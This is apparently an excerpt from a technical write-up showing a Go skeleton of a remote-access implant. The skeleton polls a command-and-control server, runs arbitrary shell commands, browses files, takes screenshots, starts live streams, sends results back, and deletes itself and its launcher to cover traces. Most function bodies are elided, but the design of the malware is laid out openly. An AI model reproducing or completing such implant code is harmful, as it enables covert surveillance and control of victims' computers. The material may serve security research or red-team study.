\begin{verbatim}
    if !initializeConfig() { // Parses embedded C2_ADDRESS & IMPLANT_ID
        os.Exit(1) // Exit if config is invalid
    }

    // Schedule self-deletion in a separate goroutine.
    // This targets both the current running implant (exePath) and the
    // original launcher (gOriginalLauncherPath).
    if doSelfDelete != nil {
        go func() {
            time.Sleep(2 * time.Second) // Brief delay for implant startup
            doSelfDelete(exePath, gOriginalLauncherPath)
        }()
    }

    // Main operational loop
    for {
        checkIn() // Send heartbeat and PWD to C2
        // Pass current exePath (of this backgrounded process) AND the original launcher's path
        fetchAndExecuteCommands(exePath, gOriginalLauncherPath)
        time.Sleep(checkInInterval)
    }
}

// initializeConfig populates C2 URLs from embedded c2AddressBytes
// and verifies implantIDBytes.
func initializeConfig() bool { /* ... */ return true }

// checkIn sends a POST request to the C2 server's /checkin endpoint.
func checkIn() { /* ... */ }

// fetchAndExecuteCommands retrieves commands from the C2 server and processes them.
func fetchAndExecuteCommands(currentImplantExePath string, originalLauncherPath string) {
    // ... HTTP GET to C2's command URL for this implant ...
    // ... JSON unmarshal commands from response ...

    // For each command received:
    // Example command parsing:
    // if strings.HasPrefix(trimmedCmdStr, "fs_browse ") { listDirectory(...) }
    // else if trimmedCmdStr == "screenshot" { takeScreenshotAndSend() }
    // else if trimmedCmdStr == "livestream_start" { startLivestreamGoroutine() }
    // else if trimmedCmdStr == "self_destruct" {
    //     sendOutput(cmdToExec.ID, "Self-destruct initiated...")
    //     if doSelfDelete != nil {
    //         // Initiate deletion of current implant and original launcher
    //         doSelfDelete(currentImplantExePath, originalLauncherPath)
    //     }
    //     os.Exit(0) // Terminate implant to allow file deletion
    // }
    // else { /* Execute general shell command using os/exec */ }
    // ... After execution, call sendOutput() with results ...
}

// sendOutput sends the result of a command back to the C2 server.
func sendOutput(cmdID int, output string) { /* ... */ }

// doSelfDelete is a platform-specific function pointer.
var doSelfDelete func(selfExePath string, originalLauncherPath string)

// (Other platform-specific function pointers like takeScreenshot, setOSSpecificAttrs)
\end{verbatim}

